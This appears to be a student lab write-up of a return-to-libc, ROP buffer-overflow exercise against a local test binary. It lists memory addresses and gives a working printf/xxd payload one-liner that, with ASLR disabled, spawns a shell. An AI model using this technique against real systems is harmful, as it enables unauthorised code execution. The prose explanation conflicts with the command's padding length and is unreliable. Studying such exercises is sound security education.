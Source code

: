 ```
Segmentation fault
```
We weren't able to run the code due to segmentation error.  
So we tried following the original link guide: https://github.com/finallyjustice/security/blob/master/rop/demo1/README.txt.  
libc base address: 0x7ffff7a0d000.  
gadget address: 0x7FFFF7A2E102 = 0x7ffff7a0d000 + 0x21102.  
buffer address: 0x7fffffffdff0.  
buffer + offset: = 0x7FFFFFFFE050 = 0x7fffffffdff0 + 64 + 8 + 24.  
system address: 0x7FFFF7A52390= 0x7ffff7a0d000 + 0x45390.  
```
$ ((( printf %0144d 0; 
printf %016x 0x7FFFF7A2E102 | tac -rs..;
printf %016x 0x7FFFFFFFE050 | tac -rs..;
printf %016x 0x7FFFF7A52390 | tac -rs..;
echo -n /bin/sh | xxd -p) | xxd -r -p) ;
cat ) | setarch `arch` -R ./victim
0x7fffffffdff0
What's your name?
World
Hello, !

ls
pip a.out  shell.c  shellcode  victim  victim.c
```
We fill the buffer with 130 0s, which is 65 zero bytes. By doing so,
it allows us to overwrite beyond the buffer, the "/bin/sh", and when RBP was being pushed to the stack.  
This will allows us to overwrite RBP with the address of "/bin/sh".  
So when RBP was popped, it saved address of "/bin/sh" and then jumped to the address of the system()
to execute "/bin/sh", which has our injection.  
